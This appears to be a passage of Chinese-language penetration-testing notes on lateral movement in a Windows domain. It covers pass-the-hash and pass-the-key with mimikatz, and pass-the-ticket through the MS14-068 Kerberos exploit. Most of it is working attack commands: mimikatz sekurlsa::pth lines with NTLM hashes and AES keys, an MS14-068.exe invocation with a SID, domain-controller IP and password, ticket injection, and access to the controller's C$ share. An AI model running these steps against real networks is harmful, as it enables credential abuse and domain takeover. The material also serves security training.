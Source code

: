 PTH ntlm 传递，未打补丁下的工作组及域连接：

~~~
sekurlsa::pth /user:administrator /domain:god /ntlm:ccef208c6485269c20db2cad21734fe7
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:518b98ad4178a53695dc997aa02d455c
sekurlsa::pth /user:boss /domain:god /ntlm:ccef208c6485269c20db2cad21734fe7

dir \\192.168.3.21\c$
~~~

PTK aes256 传递

打补丁后的工作组及域连接：

~~~
sekurlsa::ekeys #获取 aes
sekurlsa::pth /user:mary /domain:god
/aes256:d7c1d9310753a2f7f240e5b2701dc1e6177d16a6e40af3c5cdff814719821c4b
~~~



###### 域横向移动 PTT 传递-ms14068&kekeo&本地

**第一种利用漏洞：**

能实现普通用户直接获取域控 system 权限

**\#MS14-068 powershell 执行**

1.查看当前 sid whoami/user

2.mimikatz # kerberos::purge

//清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造

mimikatz # kerberos::list 

//查看当前机器凭证

mimikatz # kerberos::ptc 票据文件 //将票据注入到内存中

3.利用 ms14-068 生成 TGT 数据

ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码

MS14-068.exe -u mary@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.3.21 - 

p admin!@#45

4.票据注入内存

mimikatz.exe "kerberos::ptc TGT_mary@god.org.ccache" exit

5.查看凭证列表 klist

6.利用

dir \\192.168.3.21\c$

**第二种利用工具 kekeo**

https://hub.fastgit.org/gentilkiwi/kekeo/releases
